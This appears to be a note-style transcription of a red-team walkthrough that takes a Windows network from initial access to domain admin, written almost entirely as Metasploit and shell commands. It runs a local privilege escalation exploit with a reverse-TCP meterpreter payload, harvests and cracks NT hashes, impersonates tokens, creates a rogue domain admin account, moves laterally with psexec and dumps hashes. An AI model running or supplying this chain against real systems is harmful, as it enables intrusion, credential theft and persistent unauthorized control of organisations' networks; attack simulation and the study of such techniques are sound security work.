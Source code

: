 https://spreadsecurity.github.io/2016/11/17/attack-simulation-from-no-access-to-domain-admin.html

#generate payload
#initial access
sessions -i 1
sysinfo
background
use post/windows/gather/win_privs
use post/windows/gather/enum_domain
use post/windows/gather/enum_domain_group_users
shell
net groups "domain admins" /domain
shell
wmic qfe list
use exploit/windows/local/ms15_051_client_copy_image
 set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
info
exploit
getuid
NT authority\SYSTEM
use post/windows/gather/credentials/credential_collector
info
creds
grab hashes into text files
cat hashes.txt
john --format:NT --wordlist=[filename].txt hashes.txt
#crack local administrator password
load incogito
impersonate_token
list_tokens -u
impersonate_token of another logged high priviledged user
shell
net user evilboss password123 /add /domain
net group "Domain Admins" evilboss /add /domain
exploit/windows/smb/psexec
EXPLOIT
sysinfo -> x64 shell
hashdump

